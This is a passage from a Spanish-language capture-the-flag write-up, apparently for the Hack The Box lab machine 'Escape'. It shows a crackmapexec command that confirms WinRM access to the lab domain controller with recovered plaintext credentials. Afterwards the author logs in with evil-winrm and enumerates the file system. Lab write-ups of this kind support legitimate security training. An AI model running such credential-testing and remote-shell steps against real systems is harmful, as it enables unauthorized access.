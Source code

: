 ```bash
$ crackmapexec winrm 10.10.11.202  -u 'SQL_SVC' -p "REGGIE1234ronnie" 
SMB         10.10.11.202    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:sequel.htb)
HTTP        10.10.11.202    5985   DC               [*] http://10.10.11.202:5985/wsman
WINRM       10.10.11.202    5985   DC               [+] sequel.htb\SQL_SVC:REGGIE1234ronnie (Pwn3d!)

```

vemos que por winrm nos marca un pwn3d!, eso quiere decir que ahora nos podemos conectar con evil-winrm

![](/assets/img/commons/Escape/cap5.png)

Una vez dentro haciendo una enumeración por todo el sistema si vamos a la raiz del disco local C:\ encontramos un fichero donde guarda Logs de la base de datos 
